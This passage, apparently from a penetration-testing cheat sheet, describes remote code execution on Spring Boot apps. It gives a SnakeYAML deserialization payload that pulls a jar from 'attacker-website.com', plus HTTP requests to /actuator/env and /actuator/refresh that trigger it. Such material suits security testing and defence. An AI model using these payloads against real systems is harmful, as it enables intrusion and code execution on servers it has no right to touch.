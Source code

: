 1. Host `config.yml` at `http://attacker-website.com/config.yml` with the following content:

    ```yaml
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://attacker-website.com/payload.jar"]
      ]]
    ]
    ```

2. Host `payload.jar` with the code that will be executed, check [marshalsec research](https://github.com/mbechler/marshalsec) and [artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) for how to prepare the payload
3. Set the `spring.cloud.bootstrap.location` property:

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json
    
    {
        "name": "spring.cloud.bootstrap.location",
        "value": "http://attacker-website.com/yaml-payload.yml"
    }
    ```

4. Refresh the configuration:

    ```http
    POST /actuator/refresh HTTP/1.1
    Content-Type: application/json
    ```

5. Code will be executed

It is possible because:

1. The `spring.cloud.bootstrap.location` is set to the URL with the external malicious config
2. Refresh triggers a request for the config file on a remote server and retrieves its content
3. `SnakeYAML` completes the specified action when parsing the malicious config due to a deserialization vulnerability
4. `SnakeYAML` uses `java.net.URL` to pull the malicious jar from the remote server
5. `SnakeYAML` searches for a class in the jar that implements the `javax.script.ScriptEngineFactory` interface and creates an instance of it
6. The instance creation leads to malicious code execution

References:
- [Spring Boot Vulnerability Exploit Check List: spring cloud SnakeYAML RCE](https://github.com/LandGrey/SpringBootVulExploit#0x02spring-cloud-snakeyaml-rce)
- [Spring Cloud Env Study Notes of Exploit Spring Boot Actuator](https://b1ngz.github.io/exploit-spring-boot-actuator-spring-cloud-env-note/)

## spring.datasource.hikari.connection-test-query

`spring.datasource.hikari.connection-test-query` sets a query that will be executed before granting a connection from a pool. It can lead to RCE if the following conditions are met:
